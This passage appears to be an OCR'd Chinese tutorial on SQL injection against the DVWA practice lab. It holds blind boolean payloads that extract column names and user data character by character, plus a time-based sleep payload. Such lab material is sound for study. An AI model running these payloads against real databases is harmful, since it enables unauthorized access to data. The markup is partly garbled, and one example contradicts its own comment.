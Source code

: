 >           and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1))=10 #
>           ```
>   
>   -   **猜解表中字段名**
>   
>       -   ```sql
>           -- 猜解第一个字段名的第一个字符为：u
>           and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1,1))=117 #
>   
>           -- 猜解第一个字段名的第二个字符为：s
>           and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),2,1))=115 #
>   
>           -- 猜解第二个字段名的第一个字符为：f
>           and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1,1))=102 #
>   
>           -- 猜解第二个字段名的第二个字符为：i
>           and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),2,1))=105 #
>   ~~~
>
>   
>
>               注释：
>               i代表查询第几个字段名
>               n代码查询字段名的第几个字符
>               
>               and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit i,1),n,1))=101 #
>
>
>               ```
>               
>       -   **猜解数据**
>               
>           -   ```sql
>               -- 猜解 dvwa.users 表下的 user 列的第一个字段内容为：a
>               and ascii(substr((select user from dvwa.users limit 0,1),1,1))=97 # 
>               
>               -- 猜解 dvwa.users 表下的 user 列的第二个字段内容为：d
>               and ascii(substr((select user from dvwa.users limit 0,1),1,1))=100 # 
>               
>               -- 暴力猜解
>               -- 猜解 user 字段值是否为 admin，正常说明有
>               1' and (select count(*) from users where user = 'admin') = 1 #
>               ```
>
>   -   **时间盲注**
>
>       -   猜解数据长度
>
>           -   ```htaccess
>                           
>               ' and if((length(database())=8),sleep(5),1)--+
>               ```
>
>   -   **基于post单引号注入**
>
>       -   在post中测试是否存在注入点，然后根据第一关的方法
>
>       -   ```sql